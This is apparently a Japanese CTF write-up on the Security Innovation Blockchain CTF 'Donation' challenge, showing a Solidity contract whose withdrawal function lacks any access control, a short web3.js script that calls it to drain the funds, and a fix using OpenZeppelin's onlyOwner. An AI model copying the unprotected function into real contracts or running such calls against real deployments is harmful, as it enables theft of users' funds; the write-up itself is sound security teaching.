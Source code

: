 +++
title = "Security Innovation Blockchain CTF - Donation"
date = "2022-05-11"
tags = [
    "security",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Donation](https://blockchain-ctf.securityinnovation.com/#/game/0)という問題を解きました。

#### 問題

問題を開くと、寄付をするためのアプリケーションであることが分かります。

Donate 0.1 Ether!をクリックするとMetaMaskが起動し、0.1 Etherが寄付されます。

<img src=./dapps.png><br>

このアプリケーションのソースコードとして、以下のSolidityファイルが渡されます。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract Donation is CtfFramework{

    using SafeMath for uint256;

    uint256 public funds;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
    {
        funds = funds.add(msg.value);
    }

    function() external payable ctf{
        funds = funds.add(msg.value);
    }

    function withdrawDonationsFromTheSuckersWhoFellForIt() external ctf{
        msg.sender.transfer(funds);
        funds = 0;
    }

}
```

コードを読んでみると、`withdrawDonationsFromTheSuckersWhoFellForIt`という関数があるのが分かります。

この関数は、`msg.sender`に今まで寄付された`funds`を送信する関数で、呼び出し可能なユーザーに制限がありません。

そのため、この関数を呼び出すことで、今まで寄付されたEthereumを引き出すことが可能になります。

#### エクスプロイト

デプロイされたコントラクトの呼び出しには、[MyCrypto](https://mycrypto.com)などが利用できますが、
今回はあえて[web3.js](https://web3js.readthedocs.io/en/v1.7.3/)を使って書いてみます。

```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")
const fs = require('fs');

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
const abi = JSON.parse(fs.readFileSync('./src/abi.json'))
const contract = new web3.eth.Contract(abi, '0xaa51c14d9ff94ee5a5674ee0af8257f1665956f3')

// withdrawDonationsFromTheSuckersWhoFellForIt関数の呼び出し
const option = {from: '0xd7544D522B75347b48917649ebc5D334b3D43445'}
contract.methods.withdrawDonationsFromTheSuckersWhoFellForIt().send(option)
```

#### どう実装されているべきか

今回の問題は、コントラクトのオーナーのみが利用できるべき機能が、誰でも呼び出し可能になってしまっていることに問題があります。
そのため、コントラクト側でオーナーか否かの判定を入れれば良いことになります。

SolidityにはOpenZeppelinというライブラリがあり、
このライブラリには[Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)というコントラクトがあります。

以下のように、`onlyOwner`という`modifier`をつけることで、デプロイしたオーナーのみが関数を呼び出せるように制限することが可能です。

詳細はドキュメントを参照してください。

https://docs.openzeppelin.com/contracts/2.x/access-control

```solidity
import "@openzeppelin/contracts/ownership/Ownable.sol";

contract A is Ownable {
    function somethingSecret() public onlyOwner {
        // オーナーからの呼び出しのみを許可
    }
}
```
